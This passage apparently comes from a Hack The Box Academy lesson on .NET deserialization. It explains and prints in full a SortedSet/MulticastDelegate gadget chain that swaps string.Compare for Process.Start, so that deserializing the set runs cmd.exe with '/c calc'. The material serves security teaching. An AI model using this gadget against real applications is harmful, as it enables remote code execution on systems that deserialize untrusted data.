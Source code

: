 Now we have a `MulticastDelegate` which invokes `string.Compare` followed by `Process.Start` whenever the `ComparisonComparer` invokes `Compare`. But we don't have anything that invokes `Compare` yet. This is where `SortedSet` comes in. `SortedSet` is a `Set` that automatically sorts itself each time a new item is added (assuming there are at least two items in total). To do the sorting, it invokes `Compare` on the instance's internal `Comparer` which can be specified by the user, meaning we can supply our `ComparisonComparer`.

![image](https://academy.hackthebox.com/storage/modules/240/3/44.png)

Additionally, and equally important, `SortedSet` can be serialized and upon deserialization it will add the items to a new `SortedSet` instance one by one, effectively triggering the `Compare` function.

![image](https://academy.hackthebox.com/storage/modules/240/3/42.png)

So the last few lines of the gadget are the following:

```csharp
// Create a SortedSet with our ComparisonComparer and add two strings
//   which will act as the FileName and Arguments parameters when passed
//   to Process.Start(string FileName, string Arguments)
SortedSet<string> sortedSet = new SortedSet<string>(comparisonComparer);
sortedSet.Add("/c calc");
sortedSet.Add("C:\\Windows\\System32\\cmd.exe");

```

Putting everything together, the whole gadget looks like this:

```csharp
// We delegate `string.Compare` as a new `Comparison<T>`
Delegate stringCompare = new Comparison<string>(string.Compare);

// We create a `MulticastDelegate` by chaining two `string.Compare` methods in a row
Comparison<string> multicastDelegate = (Comparison<string>) MulticastDelegate.Combine(stringCompare, stringCompare);

// We create a `ComparisonComparer` instance using `Comparer.Create` and pass the `MulticastDelegate` that we created as the `Comparison<T>` parameter to the constructor
IComparer<string> comparisonComparer = Comparer<string>.Create(multicastDelegate);

// Get the private field _invocationList, specifying it is a Non-Public, Instance variable
FieldInfo fi = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);

// Get the invocation list from our MulticastDelegate
object[] invoke_list = multicastDelegate.GetInvocationList();

// Overwrite the second delegated function (string.Compare) with Process.Start
invoke_list[1] = new Func<string, string, Process>(Process.Start);
fi.SetValue(multicastDelegate, invoke_list);

// Create a SortedSet with our ComparisonComparer and add two strings
//   which will act as the FileName and Arguments parameters when passed
//   to Process.Start(string FileName, string Arguments)
SortedSet<string> sortedSet = new SortedSet<string>(comparisonComparer);
sortedSet.Add("/c calc");
sortedSet.Add("C:\\Windows\\System32\\cmd.exe");

```
